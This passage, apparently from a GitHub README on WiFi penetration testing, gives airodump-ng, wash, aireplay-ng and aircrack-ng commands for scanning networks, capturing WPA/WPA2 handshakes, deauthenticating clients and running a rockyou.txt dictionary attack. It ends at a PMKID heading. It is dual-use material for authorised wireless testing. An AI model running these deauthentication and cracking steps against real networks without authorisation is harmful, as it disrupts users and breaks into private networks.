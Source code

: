 Set a wireless network interface back to the managed mode:

```bash
airmon-ng stop wlan0mon

ifconfig wlan0 down && iwconfig wlan0 mode managed && ifconfig wlan0 up
```

Search for WiFi networks within your range:

```fundamental
airodump-ng wlan0mon --wps -w airodump_results

wash -i wlan0mon --all
```

Monitor a specified WiFi network to capture handshakes/requests:

```fundamental
airodump-ng wlan0mon --channel 8 --bssid FF:FF:FF:FF:FF:FF --essid essid --write airodump_essid_results
```

Don't forget to stop `airodump-ng` after you are done monitoring, especially if you specified an output file, so you don't fill up all your free storage space with a big PCAP file.

Use [Kismet](https://github.com/ivan-sincek/evil-twin#additional-search-for-wifi-networks-within-your-range) or WiFi Pineapple's Recon to find more information about wireless access points, e.g. the MAC address, vendor's name, etc.

## 3. Cracking

Check if your wireless card supports packet injection:

```fundamental
aireplay-ng wlan1 --test -a FF:FF:FF:FF:FF:FF -e essid
```

### WPA/WPA2 Handshake

Monitor a specified WiFi network to capture a WPA/WPA2 4-way handshake:

```fundamental
airodump-ng wlan0mon --channel 8 --bssid FF:FF:FF:FF:FF:FF --essid essid --write airodump_essid_results
```

Deauthenticate clients from a specified WiFi network:

```fundamental
aireplay-ng wlan1 -a FF:FF:FF:FF:FF:FF -e essid --deauth 10
```

Start a dictionary attack against a WPA/WPA2 handshake:

```fundamental
aircrack-ng -b FF:FF:FF:FF:FF:FF -e essid -w rockyou.txt airodump_essid_results*.cap
```

### PMKID Attack
